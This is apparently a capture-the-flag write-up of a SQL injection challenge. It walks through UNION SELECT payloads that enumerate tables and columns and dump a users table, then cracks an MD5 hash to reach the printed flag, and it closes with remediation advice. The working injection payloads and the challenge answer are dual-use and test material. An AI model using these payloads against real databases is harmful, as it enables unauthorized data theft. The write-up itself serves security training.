 # SQL Injection - Member_Sql_Injection

## Vulnerability:
A SQL Injection vulnerability exists that allows user-controllable input to be used in `UNION SELECT` payloads. This permitted enumeration of the database, listing of tables/columns, and extraction of data from the `users` table. A hashed value retrieved from the database was cracked and used to derive the challenge flag.

## Weakness:
- Unsanitized user input concatenated into SQL queries (no prepared statements / parameterized queries).
- Database error/output is exposed in responses, aiding enumeration.
- Credential-like values stored using weak/fast hashing (MD5), enabling offline cracking.
- No WAF or input filtering to block SQLi patterns.
- Insufficient least-privilege for the application database user.

## Exploitation:
1. Determined number of columns via incremental `UNION SELECT` attempts — discovered the response expects 2 columns.
2. Retrieved database name:
   - `1 UNION SELECT 2, database()` → `Member_Sql_Injection`
3. Enumerated tables in the current database:
   - `1 UNION SELECT NULL, GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()`
   - Result included: `users`
4. Enumerated columns of `users`:
   - `1 UNION SELECT NULL, GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name=CHAR(117,115,101,114,115)`
   - Columns found: `user_id, first_name, last_name, town, country, planet, Commentaire, countersign`
5. Dumped concatenated user rows:
   - `1 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users`
   - Found a `countersign` value containing MD5: `5ff9d0165b4f92b14994e5c685cdce28`
6. Cracked MD5 (`5ff9d016...`) to `FortyTwo`, converted to `fortytwo`, SHA256 produced the challenge flag.

> Note: step-by-step exploit payloads are provided here only for authorized/CTF reporting and replication in a controlled environment.

## Flag:
`10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

(Alternatively: store the flag in the `flag` file in the challenge folder. Do not include plaintext credentials in publicly shared reports.)

## PoC (requests / commands):
> Sanitized payloads used during authorized testing:
```sql
-- determine columns
1 UNION SELECT 1
1 UNION SELECT 2
1 UNION SELECT 3

-- get database name
1 UNION SELECT 2, database()

-- list tables in current database
1 UNION SELECT NULL, GROUP_CONCAT(table_name)
FROM information_schema.tables
WHERE table_schema = database() -- -

-- list columns for 'users'
1 UNION SELECT NULL, GROUP_CONCAT(column_name)
FROM information_schema.columns
WHERE table_schema = database()
AND table_name = CHAR(117,115,101,114,115) -- 'users'

-- dump concatenated user data
1 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign)
FROM users


# How to Fix:

Use parameterized queries / prepared statements for all database interactions; never concatenate user input into SQL.

Apply least-privilege to the application DB user; avoid exposing metadata where not required.

Never expose raw database errors to end users; log details server-side only.

Store credentials using modern slow hashing algorithms (Argon2, bcrypt) with per-user salts; do not use MD5.

Deploy a WAF and input validation to detect and block SQLi attempts.

Implement monitoring and alerting for unusual query patterns and repeated enumeration attempts.

Conduct regular security testing (DAST/SAST) and code reviews targeting injection risks.